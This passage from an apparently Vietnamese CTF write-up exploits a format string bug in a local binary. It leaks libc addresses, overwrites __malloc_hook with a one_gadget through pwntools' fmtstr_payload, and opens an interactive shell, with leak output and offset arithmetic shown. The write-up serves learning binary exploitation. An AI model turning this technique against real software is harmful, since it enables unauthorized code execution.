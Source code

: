 ```bash
[+] Starting local process './format': pid 15866
[+] attach gdb
[+] LEAK : init+117 address: b'0x563d767e026d\n'
[*] Base ELF address: 0x563d767df000
[*] printf@got.plt address: 0x563d767e2fc0
[+] Leaked __printf: 0x7fc6d53d6e10
[*] Stopped process './format' (pid 15866)

````
- Sử dụng `https://libc.blukat.me/`  và địa chỉ của libc vừa có được để kiểm tra phiên bản của libc. 

## Bước 3 chiếm quyền điều khiển  
- Khi kiểm tra với `checksec`, chúng ta thấy rằng binary được setup với `Full RELRO`, điều đó có nghĩa chúng ta không thể ghi đè lên GOT, tuy nhiên nội dung của thư viện libc chúng ta vẫn có thể ghi đực. Do đó, mục tiêu sẽ ghi đè lên con trỏ `__malloc_hook` 
- Khi chúng ta gửi vào `printf()` chuỗi quá lớn, `__malloc_hook` được gọi bất cứ khi nào `malloc()` được dùng.  
- Chúng ta gọi `malloc()` bằng cách gọi `printf("%100000$c")`, lệnh gọi này sẽ cấp phát nhiều byte trên stack và buộc libc phải cấp phát thêm vùng nhớ trên heap thay vì trên stack. 
- Khi đó, chúng ta có thể ghi đè giá trị của `__malloc_hook` bằng `%6n` và thay `AAAA` đầu thành địa chỉ của `__malloc_hook`.  
- Chúng ta sử dụng kĩ thuật `[one_gadget](https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook)` để thực thi `execve("/bin/sh")` trong libc.  
```bash
➜  Format git:(main) ✗ one_gadget libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
- Tiếp theo, chúng ta tính các địa chỉ cần thiết. Với libc khi chưa chạy, chúng ta đọc địa chỉ của `printf`:  
```bash
➜  Format git:(main) ✗ objdump -TR libc6_2.27-3ubuntu1_amd64.so| grep " printf$"
0000000000064e80 g    DF .text  00000000000000c3  GLIBC_2.2.5 printf
```
Chúng ta thấy rằng khoảng cách từ printf tới base address là `0x64e80`, do đó, để tính base address, chúng ta lấy địa chỉ của `printf` leak được khi thực thi trừ đi `0x64e80`.  
- Sau khi có được base address, chúng ta tính địa chỉ của `malloc_hook_addr` và `one_gadget` bằng cách lấy base address cộng với khoảng cách của các hàm (lấy bằng cách đọc static)
```python
# Calculating base libc, __malloc_hook and one_gadget ---
base_libc = printf_libc - 0x64e80
malloc_hook_addr = base_libc + 0x00000000003ebc30
one_gadget = base_libc + 0x4f322
```  
- Ta sử dụng `[pwnlib.fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html#module-pwnlib.fmtstr)` - công cụ khai thác lỗi format string để tính và ghi đè địa chỉ `__malloc_hook` với one gadget và kích hoạt nó.  
```python
# Overriding __malloc_hook with one_gadget ---
p.sendline(fmtstr_payload(6, {malloc_hook_addr: one_gadget}))
p.recv()
p.sendline('%100000$c') # __malloc_hook trigger
p.interactive()
```
